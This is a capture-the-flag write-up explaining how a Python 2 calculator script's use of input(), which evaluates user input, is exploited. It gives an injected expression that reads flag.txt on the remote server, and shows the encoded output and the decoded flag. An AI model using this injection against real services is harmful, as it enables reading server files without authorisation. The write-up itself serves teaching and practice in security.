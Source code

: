 # My First calculator

Category: Misc

Points: 100

>  I'm really new to python. Please don't break my calculator!`nc misc.hsctf.com 7001`
>
> There is a `flag.txt` on the server.

A [`calculator.py`](calculator.py) is attached. The script uses python 2, which has plenty of exploitable bugs.

The script uses the `input` function which [is equivalent to `eval(raw_input())`](https://docs.python.org/2/library/functions.html#input). 

```python
first = int(input("First number: "))
second = int(input("Second number: "))
```

These variables are printed due to a logic error in the script:

```python
if first != 1 or second != 1:
    print("")
    print("Sorry, only the number 1 is supported")
```
If the check fails, the script proceeds anyway.

Hence, we can encode the flag into ASCII, then decode it later.

```python
first = ''.join(str(ord(c)) for c in open("flag.txt","r").read())
second = 1
operator = "anything"
```

Output:

```
102108971031231121081019711510195117115101951121211161041111105112511
```

With some effort, we can split the output into ASCII characters:

```
102 108 97 103 123 112 108 101 97 115 101 95 117 115 101 95 112 121 116 104 111 110 51 125 11
flag{please_use_python3}
```

